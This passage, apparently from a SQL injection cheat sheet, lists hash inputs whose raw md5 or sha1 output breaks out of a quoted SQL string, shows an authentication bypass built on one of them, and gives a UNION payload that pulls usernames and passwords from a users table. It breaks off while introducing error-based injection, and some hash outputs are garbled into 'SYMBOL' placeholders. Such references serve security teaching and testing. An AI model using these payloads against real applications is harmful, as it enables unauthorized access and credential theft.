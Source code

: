 | Hash | Input    | Output (Raw)            |  Payload  |
| ---- | -------- | ----------------------- | --------- |
| md5  | ffifdyop | `'or'6SYMBOL]SYMBOLSYMBOL!r,SYMBOLSYMBOLb`       | `'or'`    |
| md5  | 129581926211651571912466741651878684928 | `ÚT0Do#ßÁ'or'8` | `'or'` |
| sha1 | 3fDf     | `QSYMBOLu'='SYMBOL@SYMBOL[SYMBOLtSYMBOL- oSYMBOLSYMBOL_-!` | `'='`     |
| sha1 | 178374   | `ÜÛ¾}_ia!8Wm'/*´Õ`      | `'/*`     |
| sha1 | 17       | `Ùp2ûjww%6\`            | `\`       |

This behavior can be abused to bypass the authentication by escaping the context.

```php
sql1 = "SELECT * FROM admin WHERE pass = '".md5("ffifdyop", true)."'";
sql1 = "SELECT * FROM admin WHERE pass = ''or'6SYMBOL]SYMBOLSYMBOL!r,SYMBOLSYMBOLb'";
```

## UNION Based Injection

In a standard SQL query, data is retrieved from one table. The `UNION` operator allows multiple `SELECT` statements to be combined. If an application is vulnerable to SQL injection, an attacker can inject a crafted SQL query that appends a `UNION` statement to the original query.

Let's assume a vulnerable web application retrieves product details based on a product ID from a database:

```sql
SELECT product_name, product_price FROM products WHERE product_id = 'input_id';
```

An attacker could modify the `input_id` to include the data from another table like `users`.

```SQL
1' UNION SELECT username, password FROM users --
```

After submitting our payload, the query become the following SQL:

```SQL
SELECT product_name, product_price FROM products WHERE product_id = '1' UNION SELECT username, password FROM users --';
```

:warning: The 2 SELECT clauses must have the same number of columns.

## Error Based Injection

Error-Based SQL Injection is a technique that relies on the error messages returned from the database to gather information about the database structure. By manipulating the input parameters of an SQL query, an attacker can make the database generate error messages. These errors can reveal critical details about the database, such as table names, column names, and data types, which can be used to craft further attacks.

For example, on a PostgreSQL, injecting this payload in a SQL query would result in an error since the LIMIT clause is expecting a numeric value.
